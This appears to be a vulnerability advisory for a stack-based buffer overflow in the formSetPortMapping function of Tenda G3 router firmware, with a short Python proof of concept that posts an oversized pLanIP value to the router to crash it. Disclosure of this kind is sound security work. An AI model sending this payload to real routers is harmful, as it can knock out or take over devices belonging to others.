# Tenda G3 formSetPortMapping
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formSetPortMapping function.
### Vulnerability details
Stack-based buffer overflow in function formSetPortMapping on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formSetPortMapping line 39, it reads in a user-provided parameter, and the variable pLanIP is passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formSetPortMapping-1.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/login/Auth'
payload = {
    "pLanIP": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
